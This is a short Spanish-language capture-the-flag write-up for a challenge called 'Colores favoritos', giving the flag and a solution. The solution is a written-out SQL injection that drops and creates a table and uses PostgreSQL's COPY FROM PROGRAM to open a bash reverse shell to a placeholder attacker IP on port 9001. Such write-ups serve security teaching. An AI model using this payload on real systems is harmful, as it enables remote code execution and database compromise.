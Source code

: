 # Colores favoritos
Dificultad: Extreme

Autor: [a-maccormack](https://github.com/a-maccormack)

Flag: `DCCTF{1_c4n_3v3n_sh3ll_ur_db!}`

## Descripción
Mismo sitio, mismo input, más difícil. Ya no basta con conseguir la contraseña de admin. Debes conseguir una shell en el servidor de la base de datos.

`104.237.138.109:80`

## Solución
El sitio no tiene ningún tipo de Web-App-Firewall (WAF), por lo que es posible escribir en la base de datos y desde ahí spawnear una shell.
Seteando un listener en el puerto 9001, y siendo x.x.x.x nuestra ip accesible públicamente, se puede obtener una shell con la siguiente inyección:
`admin';DROP TABLE IF EXISTS pwn;CREATE TABLE pwn(data text);COPY pwn FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/x.x.x.x/9001 0>&1"';--`
